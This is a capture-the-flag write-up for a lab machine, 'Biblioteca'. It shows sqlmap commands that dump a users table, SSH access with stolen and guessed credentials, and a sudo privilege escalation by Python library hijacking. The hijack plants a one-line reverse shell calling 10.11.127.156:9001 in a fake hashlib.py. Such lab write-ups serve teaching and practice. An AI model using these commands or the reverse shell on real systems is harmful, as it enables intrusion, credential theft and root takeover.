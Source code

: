 # Biblioteca

### Biblioteca
Nmap scan shows ports 22 and 8000. Port 8000 contains an http server. It contains a login page, but I don't have credentials so I try to register, and it just welcomes me. Since it prints my username, I try to create an account called `<script>alert(1);</script>` but it says this:<br />
![image](https://github.com/user-attachments/assets/9886dba5-4753-4cf1-a549-109e4fe69a65)<br />
I found an sql injection using sqlmap: `sqlmap -r request -p username --risk 3 --level 5  --dbs --batch --dbms=mysql`<br />
![image](https://github.com/user-attachments/assets/a88d089b-0179-4424-b8b2-5692455d019e)<br />
So I know that there's a database called `website`. I now want to enumerate what are the tables of this DB. `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D website --tables`:<br />
![image](https://github.com/user-attachments/assets/62b0eb62-243c-48e4-82e7-a71774210feb)<br />
Good, now I want to know what's inside this table `users`. So I run `sqlmap -r request -p username --risk 3 --level 5 --batch --dbms=mysql -D website -T users --dump`. This retrieves a set of credentials for the user `smokey`.
<br />
I use them to access smokey's ssh account. At this point I was stuck for about two hours... I needed to access `hazel`'s account but didn't find anything. Then my friend [Simone](https://github.com/SimoneCiferri) enlighted me. He told me: "why don't you try `hazel:hazel`. It worked. LOL.<br />
Now If I run `sudo -l` I get this:<br />
![image](https://github.com/user-attachments/assets/7e773375-8d5e-4601-a874-b3f25b5c621c)<br />
And this is the code of the python file:

    import hashlib
    
    def hashing(passw):
    
        md5 = hashlib.md5(passw.encode())
    
        print("Your MD5 hash is: ", end ="")
        print(md5.hexdigest())
    
        sha256 = hashlib.sha256(passw.encode())
    
        print("Your SHA256 hash is: ", end ="")
        print(sha256.hexdigest())
    
        sha1 = hashlib.sha1(passw.encode())
    
        print("Your SHA1 hash is: ", end ="")
        print(sha1.hexdigest())
    
    
    def main():
        passw = input("Enter a password to hash: ")
        hashing(passw)
    
    if __name__ == "__main__":
        main()

I found a guide explaining how to exploit this [here](https://github.com/gurkylee/Linux-Privilege-Escalation-Basics). Basically it's some kind of library hijacking.<br />
To exploit this, we need to run the following command: `cp /usr/lib/python3.8/hashlib.py /tmp/hashlib.py`.<br />
Then I put the following code at the beginning of the new hashlib.py file:

    import os,pty,socket;s=socket.socket();s.connect(("10.11.127.156",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
Then I listen with netcat on port 9001, and execute `sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py`:<br />
![image](https://github.com/user-attachments/assets/6219c3a8-1c1e-4e2f-afde-6b6bd81891cf)<br />
This got me the root flag!


